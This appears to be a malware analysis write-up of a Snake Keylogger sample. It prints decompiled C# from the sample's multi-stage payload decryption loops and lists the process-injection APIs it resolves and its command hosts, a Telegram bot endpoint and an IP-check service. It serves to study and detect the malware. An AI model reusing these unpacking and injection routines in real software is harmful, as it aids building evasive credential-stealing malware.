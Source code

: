 #snakeKeylogger :
SHA256: 8c92fe975db6f552f522fbd9a8e542ae2e78cc0c21bb5e316b883b23e0084038

Sample is Microsoft Visual C# / Basic.NET [ Obfus/Crypted ], and 32 bit executable
File is packed , since the entropy value is high (Entropy: 7.53124(packed))


Decryption loop: 
	int num = (text.Length + 1) / 3;
		byte[] array = new byte[num];
			for (int i = 0; i < num; i++)
			{
				char c = text[3 * i];
				bool flag = c > '9';
				if (flag)
				{
					c = c - 'A' + '\n';
				}
				else
				{
					c -= '0';
				}
				char c2 = text[3 * i + 1];
				bool flag2 = c2 > '9';
				if (flag2)
				{
					c2 = c2 - 'A' + '\n';
				}
				else
				{
					c2 -= '0';
				}
				array[i] = (byte)('\u0010' * c + c2);
			}
      
The above loop decryptes the second stage dll executable. Also, invoke member, method info function are being called to enter the second stage.

{Name = "vL" FullName = 
"UO.vL"] 
"UO.vLA6(System.String, System.String, System.String)" 


Second stage decryption loop:

		public static byte[] ND(byte[] \u0020)
		{
			GZipStream gzipStream = new GZipStream(new MemoryStream(\u0020), CompressionMode.Decompress);
			byte[] result;
			try
			{
				byte[] array = new byte[4096];
				MemoryStream memoryStream = new MemoryStream();
				try
				{
					int num;
					do
					{
						num = vd.Fq(gzipStream, array, 0, 4096, vd.dW);
						bool flag = num > 0;
						if (flag)
						{
							global::kT.Fq(memoryStream, array, 0, num, global::kT.sS);
						}
					}
					while (num > 0);
					result = sB.Fq(memoryStream, sB.V1);
				}
				finally
				{
					if (memoryStream != null)
					{
						ae.Fq(memoryStream, ae.af);
					}
				}
			}
			finally
			{
				if (gzipStream != null)
				{
					ae.Fq(gzipStream, ae.af);
				}
			}
			return result;
		}
    
    
    The loop returns another dll file and it is invoked using method info and invoke function.
    
    {Name = "Himentater" FullName = "Munoz.Himentater"}
    
    public static byte[] SearchResult(byte[] BinaryCompatibility, string Opcode)
		{
			byte[] array = \u007F.~\u0093(\u001D.\u0090(), Opcode);
			int num = (int)(BinaryCompatibility[BinaryCompatibility.Length - 1] ^ 112);
			byte[] array2 = new byte[BinaryCompatibility.Length + 1];
			int num2 = 0;
			for (int i = 0; i <= BinaryCompatibility.Length - 1; i++)
			{
				int num3 = (int)BinaryCompatibility[i] ^ num ^ (int)array[num2];
				array2[i] = (byte)num3;
				bool flag = num2 == \u0014.~\u0080(Opcode) + 100 - 101;
				if (flag)
				{
					num2 = 0;
				}
				else
				{
					num2 = num2 + 200 - 199;
				}
			}
			Array.Resize<byte>(ref array2, BinaryCompatibility.Length - 1);
			return array2;
		}
The above loop decrypts the acutal payload and invoked the below function.
   
{Name = "Gq" FullName = "KW.Gq"}
    
The acutal payload:
08b07fb8ba550a1b9e1fa53797d69dc6
    
It is resolving virutalALlocEX,CreateProcessA, NTunmapviewsection, SetThreadContext, ReadProcessMEmory (codeInjection)
Also tries to connect to checkip.dyndns.org & api.telegram.com/bot
found strings related to snakeKeylogger.
